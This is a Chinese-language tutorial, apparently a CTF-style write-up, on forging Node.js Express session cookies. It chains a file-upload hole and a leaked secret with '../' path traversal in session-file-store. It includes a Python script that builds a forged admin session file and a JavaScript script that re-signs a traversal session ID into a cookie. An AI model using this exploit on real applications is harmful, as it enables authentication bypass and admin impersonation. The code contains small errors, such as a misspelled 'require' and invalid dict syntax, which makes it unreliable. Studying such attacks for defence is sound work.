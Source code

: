 我们的 nodejs 中的 session 是依赖于 express 或者其他中间件的一个第三方库，这个库为 express session 的文件存储提供了一个更加快捷的接口，但是当没有 session 合理的配置密钥或者在 session 的配置文件中泄露，就有可能会导致 session 伪造。

## 前提条件：
1. 存在文件上传漏洞
2. 通过爆破或者配置文件获得 session 的 secret。

## 文件结构：
我们的 session 的文件结构形式如下所示：
```
"cookie":{"内容"},
```

我们可以发现我们的这一个文件是铭文存放在我们的 session 目录下，那么我们的 session 的签名是在哪里？我们的签名是在我们的 cookie 中进行签名。

其中，我们的签名的生成部分会进行一个反签名，如果我们的校验成功，就说明我们的签名是正确的，**这个签名和我们的 session 内容无关**。

## 攻击方法：
我们可以通过向 session 中添加 `/xxx` 或者 `../`，来让 session-file-store 将不属于 session 目录的文件夹下的 json 文件当作 session

第一步：上传一个 session 文件，得到文件路径
```python
import time
import json
sess={
	  'username':'admin';
	  'isAdmin':'true';
}
d={"cookie":"Skkhadsfak"};
d.update(sess)
d.update({'__lastAccess':int(time.time()*1000)});
res=json.dumps(d).replace('''"Skkhadsfak"''','''{"origionalMaxAge":null,"expires":null,"httpOnly":true,"path":"/"}''')
print(res);
```
第二步：将这个路径换到 sessionID 的 cokkie 里
第三步：利用泄露得到的 secret 重新计算签名，得到新的 cookie
```js
var cookie=require('cookie');
var crc=require('crc').crc32;
var debug=require('debug')('express-session');
var deprecate=requre('depd')('express-session');
var parseurl=require('parseurl');
var uid=require('uid-safe').sync,onheaders=require('on-headers'),signature=require('cookie-signature')
var val='../static/upload/adslkfjk'//修改后的sessionID
var secret="akjsdfhjasdf"//签名session用到的密钥
var name="auth";
var options=undefined;
var signed='s:'+signature.sign(val,secret);
var data=cookie.serialize(name,signed,options);
debug('set-cookie %s',data);
console.log(data);

```
第四步：带着新的 cookie 去访问即可。